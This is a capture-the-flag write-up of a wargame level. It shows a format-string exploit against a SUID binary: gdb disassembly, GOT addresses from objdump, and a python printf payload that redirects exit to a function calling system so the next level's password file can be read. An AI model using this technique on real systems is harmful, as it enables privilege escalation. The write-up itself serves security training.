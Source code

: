 # Level 5

## First clue
- once logged in as level4 we find again an executable with the same behavior of ./level4, `level5` owned by `level6` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb)


```
- there are three main functions, `main`, `o` and `n`
- first we inspect main
## Main
```
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`, as in level4
## Function n

```
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>

```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls printf function (that is at address 0x8048380) with as argument the user input retrieved with fget and stored in 0x208 
- it exits wihout returning
## Function o
```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt> 
End of assembler dump.

```
- prepares the stack frame
- allocates 24 bytes (0x18 in hexa)
- the movl $0x80485f0, (%esp) instruction prepares an argument to be passed to the system function. It's placing the address 0x80485f0 onto the stack, which will serve as the argument to the system function call.
- The call 0x80483b0 <system@plt> instruction then calls the system function, passing the address 0x80485f0 as its argument. This means that the system function will execute the command specified at the memory address 0x80485f0.

## Vulnerability
- in function n the user input is not properly sanitized before being passed to the printf function, so we still have a control string vulnerability, but unlike in level4 we don't have a return and the system call is in function o, that is not called anywhere. So we can construct a controlled string that allows us to replace the address of exit in the GOT with the address of "o", so that when function n exit, "o" is called instead.


## Finding the address of exit in GOT (Global Offset Table), that is writeable
- ` objdump -R level5`
```
level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main


```
- we got th address: 08049838

## Finding at what position the exit functin address passed as argument to printf will be stored in the stack: 


`python -c 'print "aaaa" + " %x" * 10' | ./level5`
- we got: `aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078` => exit will be at 4th position

## Finding the address of function o
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```
- the addreess of o function that we want the exit point to allowing us to execute the shell command is 0x080484a4

## Building the exploit: 

`python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n""' | ./level5`

- \x38\x98\x04\x08 represents the address of the exit function in little-endian format.
- %134513824d specifies a large number of characters to print before %n is executed. This number corresponds to the address of the o function in little-endian format.
- %4$n tells printf to write the count of characters printed so far to the memory address specified by the fourth argument, that is the exit function address
- so  we're effectively overwriting the address of exit in the Global Offset Table (GOT) with the address of the o function


## Triggering System Call
Once executed the exploit 134513824 chr are printed and then we can cat the /level6/.pass containing the flag
